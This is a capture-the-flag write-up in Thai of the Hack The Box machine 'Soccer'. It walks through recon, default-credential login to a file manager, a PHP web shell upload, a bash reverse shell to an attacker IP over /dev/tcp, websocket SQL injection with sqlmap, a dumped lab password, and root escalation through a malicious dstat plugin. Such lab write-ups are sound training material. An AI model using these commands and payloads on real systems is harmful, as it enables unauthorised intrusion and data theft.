

# Recon 

```bash
sudo ../Tools/scan.sh 10.10.11.194
[*] Running rustscan...
[*] Running nmap on ports: 22,80,9091
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-27 00:26 EDT
Nmap scan report for 10.10.11.194
Host is up (0.081s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Tue, 27 May 2025 04:05:57 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 27 May 2025 04:05:57 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|     </html>
|   RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Tue, 27 May 2025 04:05:58 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.95%I=7%D=5/27%Time=68353F14%P=aarch64-unknown-linux-gn
SF:u%r(informix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20c
SF:lose\r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnect
SF:ion:\x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Fo
SF:und\r\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-T
SF:ype-Options:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8
SF:\r\nContent-Length:\x20139\r\nDate:\x20Tue,\x2027\x20May\x202025\x2004:
SF:05:57\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x
SF:20lang=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</titl
SF:e>\n</head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n"
SF:)%r(HTTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Securi
SF:ty-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosni
SF:ff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x
SF:20143\r\nDate:\x20Tue,\x2027\x20May\x202025\x2004:05:57\x20GMT\r\nConne
SF:ction:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head
SF:>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n
SF:<pre>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,1
SF:6C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20def
SF:ault-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Typ
SF:e:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x2
SF:0Tue,\x2027\x20May\x202025\x2004:05:58\x20GMT\r\nConnection:\x20close\r
SF:\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20chars
SF:et=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OP
SF:TIONS\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReq
SF:TCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\
SF:r\n")%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:onnection:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.50 seconds

```

## TCP 80 

```bash
feroxbuster -u http://soccer.htb
```
จากภาพด้านล่างจะเห็นว่ามี /tiny และ /tiny/uploads 


หากเราตรวจสอบถึงโปรแกรมจะเห็นว่าเป็นโปรแกรม filemanager https://github.com/prasathmani/tinyfilemanager 


## Mis configuration

ตรวจสอบ default credential ของโปรแกรมดังกล่าวจะเห็นว่ามีการใช้ admin:admin@123


เมื่อนำข้อมูลดังกล่าวมาทดสอบ ปรากฎว่าสามารถเข้าได้ ด้วยสิทธิ admin 


จากนั้นเราจะทำการทดสอบ upload php shell ไปยังเป้าหมาย

```php
<?php system($_REQUEST["cmd"]); ?>
```

จากนั้น upload ไปที่ path /tiny/uploads  


จากนั้นทดสอบเรียกใช้ shell ได้ดังต่อไปนี้ 
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
```

จากนั้นยิงด้วยคำสั่ง

```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"'
```


จากการ enum จะเห็นว่ามี พอร์ต 3000 ที่เปิดใช้งานสำหรับ nginx อยู่ 


## Local port forwarding using chisel 
```bash
chisel server -p 8000 --reverse
./chisel_linx64 client 10.10.14.34:8000 R:3000:127.0.0.1:3000
```


จากนั้นทดสอบสมัครสมาชิกแล้วเข้ามาด้านในเว็บไซต์ 


## Web-socket
หากตรวจสอบจะพบว่ามีการ request โดยใช้ web-socket ไปที่ soc-player.soccer.htb:9091 

มีการใช้งาน Websockets 


ทดสอบส่ง sql statement ปรากฎว่าระบบตอบมาว่า Ticket 

## Blind injection 

==Condition:==
==Ticket Doesn't Exists = false== 
==Ticket Exists = true==


หากทดสอบด้วยวิธีการทำ Union จะพบว่ามีข้อมูลอยู่ 3 ส่วนที่สำเร็จ 
```sql
0 UNION SELECT 1,2,3;
```


ซึ่งหาเรา Manual Test เราจะต้องเดาเป็นจำนวนมาก 

```sql
0 UNION select user,2,3 from mysql.user where user like 'a%'-- -
```

### SQLMAP 
```bash
# Search DB
sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10 

# Serch Table 
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10

# Dump Table 
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10 ...
```
ผลลัพธ์ทำให้เราเป็นถึงข้อมูล user:password 


```bash
player@player.htb:PlayerOftheMatch2022
```


# Shell as player 

จากข้อมูลด้านบนทำให้เราสามารถ SSH เข้ามาได้ด้วย player 
```bash
player@soccer:/$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/snapd/17883/usr/lib/snapd/snap-confine
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
/snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1695/usr/lib/openssh/ssh-keysign
player@soccer:/$ cat /usr/local/etc/doas.conf 
permit nopass player as root cmd /usr/bin/dstat
player@soccer:/$ 

```

จากข้อมูลด้านบนจะพบว่ามี doas ที่สามารถรันด้วยสิทธิ Root ได้ ไปที่โปรแกรม dstat ได้ 
# Priv es 


```bash
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_ice.py

doas /usr/bin/dstat --ice
```


# PWNED